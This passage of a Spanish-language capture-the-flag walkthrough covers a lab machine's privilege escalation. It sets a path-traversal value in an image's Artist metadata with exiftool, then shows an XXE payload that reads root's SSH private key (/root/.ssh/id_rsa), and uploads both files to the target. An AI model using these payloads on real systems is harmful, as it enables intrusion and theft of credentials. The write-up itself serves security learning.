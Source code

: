Ahora si a darle y en cada apartado entenderemos mejor esto.

* Modificamos metadata indicando en el tag `artist` un **LFI**, usaré la herramienta `exiftool`:

  ```bash
  exiftool -Artist="../../../../tmp/test/hola" angy.jpg
    1 image files updated
  ```

  Y si validamos:

  ```bash
  exiftool angy.jpg
  ...
  Artist                          : ../../../../tmp/test/hola
  ...
  ```

  Recordemos, extraerá el artista:

  ```bash
  /credits/../../../../tmp/test/hola_creds.xml
  ```

  Generando así un **LFI** para salirnos de la carpeta `/credits/` y entrar en `/tmp/test/`.

* Generamos archivo `XML` con la entidad maliciosa:

  [Acá existen varios payloads](https://github.com/payloadbox/xxe-injection-payload-list#xml-external-entity-xxe-injection-payloads) de los que nos podemos apoyar, en nuestro caso creemos una entidad que nos permita leer archivos del sistema y veamos si `root` cuenta con una [llave privada SSH](https://www.cyberciti.biz/faq/how-to-set-up-ssh-keys-on-linux-unix/) para así logearnos como el simplemente usando la llave y sin necesitar contraseña.

  ```bash
  ❱ cat hola_creds.xml
  ```

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE holahola [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
  <test>&xxe;</test>
  ```

  La entidad se llama `xxe`, en ella la idea es que se guarde el contenido del objeto `/root/.ssh/id_rsa` yyyyy sea mostrado en el elemento (que puede tener cualquier nombre) `<test>` con la data de la entidad, o seaaaaa, la llave.

* Subimos los archivos a la máquina:

  ```bash
  woodenk@redpanda:/$ mkdir /tmp/test
  woodenk@redpanda:/$ cd /tmp/test
  woodenk@redpanda:/tmp/test$ curl ...
  woodenk@redpanda:/tmp/test$ curl ...
  ```

  ```bash
  woodenk@redpanda:/tmp/test$ ls -l
  total 224
  -rw-rw-r-- 1 woodenk logs 223983 Aug 16 21:39 angy.jpg
  -rw-rw-r-- 1 woodenk logs    128 Aug 16 21:40 hola_creds.xml
  ```
